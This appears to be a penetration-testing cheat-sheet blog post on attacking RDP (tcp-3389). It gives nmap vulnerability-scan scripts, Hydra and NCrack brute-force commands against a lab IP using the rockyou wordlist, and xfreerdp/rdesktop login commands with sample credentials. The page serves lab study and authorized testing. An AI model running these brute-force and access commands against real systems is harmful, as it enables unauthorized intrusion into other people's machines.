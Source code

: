 ```yaml
---
description: >-
  Enumerate RDP Services.
title: RDP (tcp-3389)                   # Add title here
date: 2022-09-17 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, RDP (tcp-3389)]                     # Change Templates to Writeup
tags: [rdp enumeration]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### NMAP
Multiple Vulns
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 10.11.1.7
```

### Brute Force
#### Hydra
```bash
hydra -l pedro -P /usr/share/wordlists/rockyou.txt 10.11.1.7 rdp
```

#### NCrack
```bash
ncrack -vv --user pedro -P /usr/share/wordlists/rockyou.txt rdp://10.11.1.7
```
### XFREERDP

XFREERDP to access windows via port tcp-3389 into a system:
/u - user
/p - password
/w - weight
/h - height
/v - remote machine
```bash
xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489
```

### RDESKTOP

Log in via RDP to the target server and make the necessary changes.
```bash
rdesktop -u Administrator -p studentlab manageengine
```